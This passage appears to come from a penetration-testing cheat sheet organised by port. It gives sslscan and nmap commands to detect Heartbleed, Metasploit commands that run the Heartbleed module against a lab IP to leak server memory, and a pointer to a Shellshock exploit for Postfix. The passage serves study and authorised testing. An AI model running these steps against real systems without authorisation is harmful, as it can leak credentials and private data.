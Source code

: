 Okay this is only here as a reminder to always check for SSL-vulnerabilities such as heartbleed. For more on how to exploit web-applications check out the chapter on client-side vulnerabilities.

#### Heartbleed

OpenSSL 1.0.1 through 1.0.1f \(inclusive\) are vulnerable OpenSSL 1.0.1g is NOT vulnerable OpenSSL 1.0.0 branch is NOT vulnerable OpenSSL 0.9.8 branch is NOT vulnerable

First we need to investigate if the https-page is vulnerable to [heartbleed](http://heartbleed.com/)

We can do that the following way.

```text
sudo sslscan 192.168.101.1:443
```

or using a nmap script

```text
nmap -sV --script=ssl-heartbleed 192.168.101.8
```

You can exploit the vulnerability in many different ways. There is a module for it in burp suite, and metasploit also has a module for it.

```text
use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS 192.168.101.8
set verbose true
run
```

Now you have a flow of random data, some of it might be of interest to you.

#### CRIME

#### Breach

#### Certificate

Read the certificate.

* Does it include names that might be useful?
* Correct vhost

### Port 554 - RTSP

RTSP \(Real Time Streaming Protocol\) is a stateful protocol built on top of tcp usually used for streaming images. Many commercial IP-cameras are running on this port. They often have a GUI interface, so look out for that.

### Port 587 - Submission

Outgoing smtp-port

If Postfix is run on it it could be vunerable to shellshock [https://www.exploit-db.com/exploits/34896/](https://www.exploit-db.com/exploits/34896/)
